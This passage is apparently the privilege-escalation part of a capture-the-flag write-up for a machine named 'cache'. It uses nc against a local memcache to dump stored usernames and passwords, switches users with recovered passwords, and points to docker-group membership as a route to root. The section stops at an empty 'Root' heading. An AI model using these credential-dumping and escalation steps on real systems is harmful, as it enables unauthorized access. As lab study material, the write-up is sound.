



# 15 - PrivEsc


# Ash
```bash
www-data@cache:/$ su - ash
Password: H@v3_fun
ash@cache:~$ 
```


# Memcache



Port 11211 is memcache. Hacktricks has a post about it https://book.hacktricks.xyz/pentesting/11211-memcache#manual

# Luffy password
```bash
ash@cache:~/.ssh$ echo "stats cachedump 1 0" | nc -vn -w 1 127.0.0.1 11211
Connection to 127.0.0.1 11211 port [tcp/*] succeeded!
ITEM link [21 b; 0 s]
ITEM user [5 b; 0 s]
ITEM passwd [9 b; 0 s]
ITEM file [7 b; 0 s]
ITEM account [9 b; 0 s]
END
ash@cache:~/.ssh$ 
ash@cache:~/.ssh$ echo "get user" | nc -vn -w 1 127.0.0.1 11211
Connection to 127.0.0.1 11211 port [tcp/*] succeeded!
VALUE user 0 5
luffy
END
ash@cache:~/.ssh$ 
ash@cache:~/.ssh$ echo "get passwd" | nc -vn -w 1 127.0.0.1 11211
Connection to 127.0.0.1 11211 port [tcp/*] succeeded!
VALUE passwd 0 9
0n3_p1ec3
END
```

luffy: 0n3_p1ec3


# Luffy


luffy is in docker group. The members of docker group can execute docker which is a privileged process and in the list of gtfobins.

# Root

